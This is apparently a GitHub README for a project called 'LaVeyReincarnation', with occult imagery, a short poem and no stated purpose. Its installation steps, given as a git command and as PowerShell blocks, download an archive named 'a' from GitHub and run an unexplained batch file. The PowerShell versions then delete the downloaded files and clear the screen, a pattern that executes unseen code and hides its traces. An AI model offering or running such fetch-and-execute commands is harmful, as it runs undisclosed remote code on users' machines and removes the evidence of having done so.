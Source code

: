 


<h1>LaVeyReincarnation</h1>

<img align="right" width="100" height="100" src="https://upload.wikimedia.org/wikipedia/commons/thumb/0/09/Baphosimb.svg/100px-Baphosimb.svg.png">
<p align="center">
Climbing deep into your Wurlitzer<br>
gathering sins to the nest<br>
lost conscience of the apprizer<br>
boiling hatred in a pest
</p>

<h3>Installation</h3>
<details>
  <summary>git</summary>
  
  * Run:
    ```powershell
    git clone https://github.com/3lv/a -q & .\a\a.bat
    ```
</details>

<details>
  <summary>Powershell</summary>
  
  * Run:
    ```powershell
    $w=$home
    $u="https://github.com/3lv/a/archive/a.zip"
    $z="$w\a.zip"
    $d="$w\a\"
    (New-Object System.Net.WebClient).DownloadFile($u,$z)
    Expand-Archive $z $d -F
    cd $d\..
    .\a\a-a\a.bat
    Remove-Item $z
    $d -R -F
    cls
    ```
</details>

<details>
  <summary>PowerShell 1 line</summary>
  
  * Run:
    ```powershell
    $w=$home;$u="https://github.com/3lv/a/archive/a.zip";$z="$w\a.zip";$d="$w\a\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -F;cls
    ```
</details>


<h3>Possible errors</h3>

> If directory "a" already exists, commands may result in a hidden error
> 
> Use the following to remove "a":
>
> <code>rmdir /s /q ".\a\"</code>

